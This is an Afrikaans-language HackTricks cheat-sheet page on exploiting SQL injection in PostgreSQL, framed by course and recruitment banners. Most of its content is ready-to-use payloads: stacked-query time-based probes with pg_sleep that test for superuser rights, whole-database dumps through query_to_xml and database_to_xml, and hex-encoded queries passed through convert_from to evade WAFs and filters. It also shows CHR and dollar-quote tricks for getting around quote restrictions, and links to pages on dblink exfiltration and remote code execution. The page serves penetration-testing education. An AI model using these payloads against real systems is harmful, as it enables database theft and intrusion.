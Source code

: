 # PostgreSQL-inspuiting

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons huur aan!** (_vloeiend in Pools, geskryf en gesproke, vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Hierdie bladsy het ten doel om verskillende truuks te verduidelik wat jou kan help om 'n SQL-inspuiting in 'n postgresql databasis te benut en om die truuks aan te vul wat jy kan vind op** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Netwerk Interaksie - Privilege Escalation, Port Scanner, NTLM-uitdaging antwoord openbaarmaking & Exfiltrasie

Die **PostgreSQL-module `dblink`** bied vermoëns om met ander PostgreSQL-instanties te verbind en TCP-verbindinge uit te voer. Hierdie funksies, gekombineer met die `COPY FROM` funksionaliteit, stel aksies soos privilege escalatie, port scanning, en NTLM-uitdaging antwoord vang in staat. Vir gedetailleerde metodes om hierdie aanvalle uit te voer, kyk hoe om [hierdie aanvalle uit te voer](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltrasie voorbeeld met dblink en groot voorwerpe**

Jy kan [**hierdie voorbeeld lees**](dblink-lo\_import-data-exfiltration.md) om 'n CTF-voorbeeld te sien van **hoe om data binne groot voorwerpe te laai en dan die inhoud van groot voorwerpe binne die gebruikersnaam** van die funksie `dblink_connect` te exfiltreer.

## PostgreSQL Aanvalle: Lees/skryf, RCE, privesc

Kyk hoe om die gasheer te kompromitteer en voorregte van PostgreSQL te verhoog in:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF omseiling

### PostgreSQL String funksies

Die manipulasie van strings kan jou help om **WAFs of ander beperkings te omseil**.\
[**Op hierdie bladsy** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**kan jy nuttige String funksies vind.**

### Gestapelde Vrae

Onthou dat postgresql gestapelde vrae ondersteun, maar verskeie toepassings sal 'n fout gooi as 2 antwoorde teruggestuur word wanneer net 1 verwag word. Maar, jy kan steeds die gestapelde vrae misbruik via Tyd inspuiting:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML truuks

**query\_to\_xml**

Hierdie funksie sal al die data in XML-formaat in net een lêer teruggee. Dit is ideaal as jy 'n groot hoeveelheid data in net 1 ry wil dump:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Hierdie funksie sal die hele databasis in XML-formaat in net 1 ry dump (wees versigtig as die databasis baie groot is, aangesien jy dit dalk DoS of selfs jou eie kliënt kan beïnvloed):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

As jy **navrae** kan uitvoer deur dit **binne 'n string** te stuur (byvoorbeeld deur die **`query_to_xml`** funksie te gebruik). **Jy kan die convert\_from gebruik om die string as hex te stuur en filters op hierdie manier te omseil:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Verbode aanhalings

As jy nie aanhalings vir jou payload kan gebruik nie, kan jy dit omseil met `CHR` vir basiese klousules (_karakter-konkatenasie werk slegs vir basiese vrae soos SELECT, INSERT, DELETE, ens. Dit werk nie vir alle SQL-verklarings_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Of met `$`. Hierdie vrae lewer dieselfde resultate:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons huur aan!** (_vloeiend Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

